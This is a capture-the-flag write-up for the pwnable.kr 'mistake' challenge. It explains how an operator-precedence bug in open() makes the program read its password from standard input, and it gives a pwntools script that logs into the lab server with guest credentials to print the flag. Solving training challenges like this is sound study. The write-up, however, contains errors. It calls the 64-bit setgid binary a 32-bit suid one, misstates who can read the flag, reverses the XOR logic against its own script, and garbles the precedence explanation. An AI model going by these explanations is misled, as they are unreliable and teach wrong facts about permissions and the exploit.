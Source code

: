 # mistake Writeup

## Challenge infos

```text
We all make mistakes, let's move on.
(don't take this too seriously, no fancy hacking skill is required at all)
This task is based on real event

ssh mistake@pwnable.kr -p2222 (pw:guest)
```

## Server content

```text
--- ls -la ---
total 52
drwxr-x---   5 root mistake      4096 Apr  2 09:08 .
drwxr-xr-x 118 root root         4096 Jun  1 12:05 ..
d---------   2 root root         4096 Jul 29  2014 .bash_history
-r--r-----   1 root mistake_pwn    40 Apr  2 09:08 flag
dr-xr-xr-x   2 root root         4096 Aug 20  2014 .irssi
-r-xr-sr-x   1 root mistake_pwn 16520 Mar 28 14:49 mistake
-rw-r--r--   1 root root          826 Mar 28 14:49 mistake.c
-r--r-----   1 root mistake_pwn    10 Jul 29  2014 password
drwxr-xr-x   2 root root         4096 Oct 23  2016 .pwntools-cache
--- id ---
uid=1017(mistake) gid=1017(mistake) groups=1017(mistake)
--- cat file---
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}

--- file binary ---
mistake: setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2817ab6c9534e57437b9e0b9de5971e9b526895e, for GNU/Linux 3.2.0, not stripped
```
## Exploitation objective
* The ssh user is ```mistake```, group ```mistake```
* The ```flag``` file is readable only by the user ```mistake_pwn``` or the group ```root```
* The ```mistake``` binary is a 32bit ELF executable by the ```mistake_pwn``` user or members of the ```mistake``` group and is ```suid``` meaning that it executes with the rights of its user even if called by a member of its group

This means that if we pwn the ```mistake``` executable we can gain read access to the ```flag``` file via suid user ```mistake_pwn```.

The ```mistake``` executable is certainly compiled from the ```mistake.c``` source code, let's have a look.

## C code analysis

```c
        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }
```
* The program attempts to open a file named `/home/mistake/password` for reading. If it fails to open the file, it exits.
* because there are no parentesis around the `fd=open`, the `fd` variable will always be set to `0` because the `open` function returns a file descriptor (which is always greater than 0 if successful) and the comparison `< 0` will always be false. because false is `0`, the `fd` variable will always be `0` (standard input).

```c
        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }
```
* The program reads the content of the file into a buffer `pw_buf` of size `PW_LEN + 1` (11 bytes).
* The `read` function reads up to `PW_LEN` bytes from the file descriptor `fd` (which is always `0`, standard input) into `pw_buf`.
* If the read operation fails (returns `0` or less), it prints an error message and exits.

```c
        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);
```
* The program prompts the user to input a password and reads it into another buffer `pw_buf2`, which is also of size `PW_LEN + 1` (11 bytes).
```c
        // xor your input
        xor(pw_buf2, 10);
```
* The program applies an XOR operation to the user input `pw_buf2` with a key defined as `XORKEY` (which is `1`).
* This means that each byte of the input password will be XORed with `1`, effectively flipping the least significant bit of each byte.

```c
        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag\n");
        }
```
* The program compares the original password read from the file (`pw_buf`) with the user input after XORing (`pw_buf2`).
* If they match, it prints "Password OK", changes the group ID to the effective group ID (which is `mistake_pwn`), and executes the command `/bin/cat flag`, which will display the content of the `flag` file.

## C order of operations
* The `if` statement in the `open` function is evaluated first, then compared to `0`, and then assigned to `fd`.
* so ```fd=0``` which means that the program will always read from standard input instead of the file `/home/mistake/password`.

## Exploitation
* First we will send the password bbbbbbbbbb (`10` bytes) to the program, which will read it from standard input because of the bug in the `open` function.
* The program will then XOR the input with `1`, resulting in `cccccccccc` (`10` bytes).
* The program will then compare the XORed input with the original password read from the file, which is also `cccccccccc` (`10` bytes) because the file contains the string `bbbbbbbbbb` (`10` bytes) XORed with `1`.
* If the comparison is successful, the program will execute `/bin/cat flag`, which will display the content of the `flag` file.

## python script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
server = ssh('mistake', 'pwnable.kr', 2222, 'guest')
io = server.process('./mistake')

io.sendline('b' * 10)
io.sendline('c' * 10)
```
* Use `ssh` to connect to the remote server with the user `mistake` and password `guest`
* Start the `mistake` process
* Send the string `bbbbbbbbbb` (`10` bytes) to the process as the password
* Send the string `cccccccccc` (`10` bytes) to the process as the XORed password
```python
result = io.recvall()

io.close()
server.close()

print(result)
```
* Receive all output from the process and print it